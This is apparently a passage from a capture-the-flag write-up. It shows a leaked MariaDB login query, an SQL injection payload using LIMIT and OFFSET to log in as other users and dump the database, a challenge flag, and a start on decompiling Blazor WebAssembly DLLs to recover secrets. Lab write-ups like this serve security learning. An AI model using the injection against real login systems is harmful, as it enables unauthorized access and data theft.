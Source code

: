 ```json
{
  "status": "error",
  "error": {
    "name": "SqlError",
    "sqlMessage": "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a'' at line 1",
    "sql": "SELECT id, username, isAdmin FROM users WHERE username='a'' AND password='a'; - parameters:[]",
    "fatal": false,
    "errno": 1064,
    "sqlState": "42000",
    "code": "ER_PARSE_ERROR"
  }
}
```

With this one can essentially dump the whole database including all the notes and users. Navigating through the users can for example be done through the usage of `LIMIT` and `OFFSET` clause in SQL.

Setting the following payload as the username gives us an user with the flag as the username. Moving the offset by 1, gives us the admin user.
```sql
' OR 1=1 LIMIT 1 OFFSET 1 -- -
```

![logged in user containing the flag](image-3.png)

### Flag

`OMEGAPOINT{50e1ad3bbd85c57c528f06f84dafd174}`

## [5] The Dreaded Lost Library

### Description

The reliance on libraries has inadvertently exposed hidden secrets of the web application. Can you find the exposed secret?

### Solve
Jumping to the preview web application built with the Blazor framework. One can see that in this application, it is similar to React, a clien/side framework running under WebAssembly in the interpreted mode. This means that the .NET Mono runtime is compiled to WebAssembly, while the .NET assemblies are loaded and executed through the runtime as DLL files. However, since the DLL files are built by the normal .NET compilation toolchain, and we know by the fact that C# compiles to bytecode before being compiled to machine code. The source code of the application could therefore be leaked by decompilation due to the nature of C# as a programming language as of .NET version 7.

Looking through the network traffic using `devtools` one can see that loads of DLL files are being loaded and sent to the client. One of such files named `webapp2.dll` seemed to be the one containing the compiled assembly of the web application. Retrieving that said DLL file and using tools such as such as [https://github.com/dnSpy/dnSpy](dnSpy), [https://www.jetbrains.com/decompiler/](dotPeek) and [https://github.com/icsharpcode/ILSpy](ilSpy) one can decompile the DLL file for the source code.
